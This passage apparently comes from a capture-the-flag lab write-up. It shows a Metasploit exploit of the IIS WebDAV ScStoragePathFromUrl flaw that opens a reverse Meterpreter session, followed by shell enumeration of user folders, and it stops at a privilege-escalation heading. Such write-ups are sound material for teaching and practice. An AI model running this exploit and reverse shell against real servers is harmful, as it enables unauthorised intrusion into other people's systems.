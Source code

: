 Resulted in Meterpreter session, so I converted it to shell and checked my credentials with whoami and found the Administrator account and the likely user account, Lakis:

```
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> exploit

[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.10.10.15:1030) at 2024-02-01 16:09:34 -0800

(Meterpreter 1)(c:\windows\system32\inetsrv) > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 1516 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami 
whoami 
nt authority\network service

------------------------------------------

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  08:48 PM    <DIR>          Administrator
04/12/2017  04:03 PM    <DIR>          All Users
04/12/2017  09:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)   1,378,058,240 bytes free

C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.

C:\Documents and Settings>cd Lakis
cd Lakis
Access is denied.

```

### Privilege Escalation
